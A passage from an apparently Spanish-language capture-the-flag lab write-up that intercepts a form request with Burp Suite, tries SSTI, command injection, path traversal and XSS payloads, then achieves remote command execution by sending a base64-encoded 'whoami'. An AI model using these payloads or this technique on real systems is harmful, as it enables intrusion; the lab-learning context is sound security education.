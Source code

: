 Ahora ya en el modo **intercept** y con **foxyproxy** listo para pasar la peticon procedemos a llenar el formulario e interceptar la peticion:
```bash
POST /submitTemplate HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://172.17.0.2/
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://172.17.0.2
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Priority: u=0

userInput=test
```

Probando estas inyecciones no tuvimos exito:
```bash
userInput={{7*7}}
userInput=test; cat /etc/passwd
userInput=../../../../etc/passwd
userInput=<script>alert(1)</script>
```

Ahora si intentamos modificar el valor a este:
```bash
userInput=1234566d867f7s8ad6fds6f78sd6f78das6f7a8sf678dsa86fd7s8f68sdf6
```

El servidor nos responde:
```bash
Error: Invalid base64-encoded string: number of data characters (61) cannot be 1 more than a multiple of 4
```

### Ejecucion del Ataque
Esto indica que posiblemente esta esperando un valor en **base64**, Por lo cual procedemos a codificar el comando **whoami** para ver como reacciona al reeenviar la peticion:
```bash
echo "whoami" | base64
d2hvYW1pCg==
```

Ejecutamos la peticion desde burpsuite
```bash
# Comandos para explotación
userInput=d2hvYW1pCg==
```

En la respuesta vemos lo siguiente, Tenemos Ejecucion remota de comandos **RCE**
```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Tue, 08 Jul 2025 20:34:13 GMT
Content-Type: text/plain
Content-Length: 9
Connection: close

cachopin
```
